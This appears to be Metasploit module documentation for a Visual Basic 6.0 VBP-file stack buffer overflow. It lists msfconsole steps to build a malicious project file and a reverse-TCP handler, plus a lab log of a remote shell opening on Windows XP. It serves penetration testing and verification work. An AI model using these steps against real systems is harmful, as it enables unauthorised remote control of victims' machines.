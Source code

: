 ## Vulnerable Application

This module exploits a stack buffer overflow in Microsoft Visual Basic
6.0. A specially crafted Visual Basic Project (VBP) file containing
a long reference line can be used to execute arbitrary code.

This module has been tested successfully on:

* Windows XP Home SP0 (x86) (English)
* Windows XP Professional SP0 (x86) (English)
* Windows XP Professional SP1 (x86-64) (English)
* Windows XP Professional SP2 (x86-64) (English)
* Windows XP Professional SP3 (x86) (English)

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/ms_visual_basic_vbp`
1. Do: `set filename [filename.vbp]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `set payload windows/shell/reverse_tcp`
1. Do: `run`
1. Do: `use exploit/multi/handler`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `set payload windows/shell/reverse_tcp`
1. Do: `run -jz`
1. Open `/home/user/.msf4/local/msf.vbp` on a vulnerable system

## Options

### FILENAME

The project file name. (Default: `msf.vbp`).

## Scenarios

### Windows XP SP3 (x86) (English)

```
msf6 > use exploit/windows/fileformat/ms_visual_basic_vbp
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/fileformat/ms_visual_basic_vbp) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf6 exploit(windows/fileformat/ms_visual_basic_vbp) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows XP SP0-SP3 (x86) (English)
    1   Windows XP SP1-SP2 (x86-64) (English)


msf6 exploit(windows/fileformat/ms_visual_basic_vbp) > run
[*] Creating 'msf.vbp' file for Windows XP SP0-SP3 (x86) (English) ...
[+] msf.vbp stored at /home/user/.msf4/local/msf.vbp
msf6 exploit(windows/fileformat/ms_visual_basic_vbp) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf6 exploit(multi/handler) > mv /home/user/.msf4/local/msf.vbp /var/www/html/msf.vbp
[*] exec: mv /home/user/.msf4/local/msf.vbp /var/www/html/msf.vbp

msf6 exploit(multi/handler) > 
[*] Sending stage (240 bytes) to 192.168.200.173
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.173:1037) at 2025-06-21 08:03:44 -0400

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>
```
